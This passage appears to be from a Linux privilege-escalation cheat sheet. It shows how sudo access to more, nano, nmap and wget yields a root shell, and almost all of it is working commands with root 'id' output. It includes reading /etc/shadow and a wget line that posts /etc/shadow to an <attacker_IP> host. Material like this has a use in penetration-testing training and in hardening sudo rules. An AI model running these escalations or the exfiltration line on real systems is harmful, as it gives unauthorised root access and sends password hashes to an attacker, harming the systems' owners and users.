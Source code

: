 - **more**

```
user@debian:~$ sudo less /etc/shadow

user@debian:~$ sudo more /etc/profile
!/bin/bash

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

- **nano**

```
user@debian:~$ sudo nano
CTRL + R
CTRL + X
reset; bash 1>&0 2>&0

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

- **nmap**

Keep in mind that input echo is disabled so it's kinda like blind commands

```
user@debian:~$ TF=$(mktemp)
user@debian:~$ echo 'os.execute("/bin/bash")' > $TF
user@debian:~$ sudo nmap --script=$TF
```

Legacy nmap versions have interactive flag

```
user@debian:~$ sudo nmap --interactive
nmap> !bash

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

- **wget**

Send file to webserver

`user@debian:~$ sudo wget --post-file=/etc/shadow <attacker_IP>`

Spawn a rooted shell

```
user@debian:~$ TF=$(mktemp)
user@debian:~$ chmod +x $TF
user@debian:~$ echo -e '#!/bin/bash\n/bin/bash 1>&0' > $TF
user@debian:~$ sudo wget --use-askpass=$TF 0

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```
